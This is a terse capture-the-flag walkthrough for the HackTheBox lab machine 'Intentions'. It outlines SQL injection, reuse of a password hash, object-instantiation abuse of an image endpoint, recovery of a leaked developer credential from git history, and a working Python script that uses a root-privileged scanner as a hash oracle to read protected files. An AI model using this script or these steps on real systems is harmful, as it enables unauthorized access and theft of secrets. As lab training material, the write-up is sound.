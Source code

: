 ![image](https://github.com/user-attachments/assets/b0b1dac3-723f-4099-b20d-0f665a806a18)

HackTheBox - Intentions


https://0xdf.gitlab.io/2023/10/14/htb-intentions.html


Register account

Login account



















Database name is intentions.



Now we got columns, a list of table structure.





Now we got users data.



Rearrange all text.











Redirecting to home page because it requires authentication to view ths page. Without authentication, it will get redirected to home page.


Read this message. They are using v2 production.





Don't forget to replace the hash.

Now you are steve.

Now we can go to /admin.

View users list.

We can edit photos.

Intercept request




If we change the filename or extension or magic byte it won't work, it won't take it as input.

Read this 
https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/








Hit Ctrl+U to URL encode and send.






Zip .git


Move to public folder


Download that file


Unzip





This looks interesting. Check what changes difference has been made






'email' => 'greg@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!'])





/opt/scanner/scanner has ability to read the files as root.











https://0xdf.gitlab.io/2023/10/14/htb-intentions.html
#!/usr/bin/env python3

import hashlib
import subprocess
import sys


def get_hash(fn, n):
    """Get the target hash for n length characters of 
    filename fn"""
    proc = subprocess.run(f"/opt/scanner/scanner -c {fn} -s whatever -p -l {n}".split(),
                stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    try:
        return proc.stdout.decode().strip().split()[-1]
    except IndexError:
        return None


def get_next_char(output, target):
    """Take the current output and figure out what the
    next character will be given the target hash"""
    for i in range(256):
        if target == hashlib.md5(output + chr(i).encode()).hexdigest():
            return chr(i).encode()


output = b""
fn = sys.argv[1]

while True:
    target = get_hash(fn, len(output) + 1)
    next_char = get_next_char(output, target)
    if next_char is None:
        break
    output += next_char
    print(next_char.decode(), end="")











